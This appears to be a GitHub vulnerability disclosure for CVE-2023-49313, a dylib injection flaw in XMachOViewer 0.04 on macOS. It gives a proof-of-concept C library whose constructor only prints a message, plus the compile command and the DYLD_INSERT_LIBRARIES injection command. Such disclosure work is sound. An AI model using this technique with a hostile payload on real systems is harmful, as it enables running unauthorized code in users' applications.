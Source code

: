 # CVE-2023-49313
A dylib injection vulnerability in XMachOViewer 0.04 allows attackers to compromise integrity. By exploiting this, unauthorized code can be injected into the product's processes, potentially leading to remote control and unauthorized access to sensitive user data.

![Captura de Tela 2023-11-27 às 20 06 48](https://github.com/louiselalanne/CVE-2023-49313/assets/100588945/1486960a-95ce-45e6-9a5b-b81f9c91e2e8)

Portable version for macOS

- First we'll write the dylib
```
#include <syslog.h>
#include <stdio.h>

__attribute__((constructor))
static void poc(void)
{
    printf("Malicious Dylib Inserted");
}
```

- Compile
`gcc -dynamiclib -arch x86_64 -o poc.dylib poc.c`

- And Inject it:
`DYLD_INSERT_LIBRARIES=poc.dylib /Applications/XMachOViewer.app/Contents/MacOS/XMachOViewer`

This will open the application and run dylib. After closing the application, we see it in the terminal: 

![Captura de Tela 2023-11-27 às 19 52 57](https://github.com/louiselalanne/CVE-2023-49313/assets/100588945/657fbc03-f511-4267-9d5e-58c68bb4cf63)

- You can study and understand more about the topic in: https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries
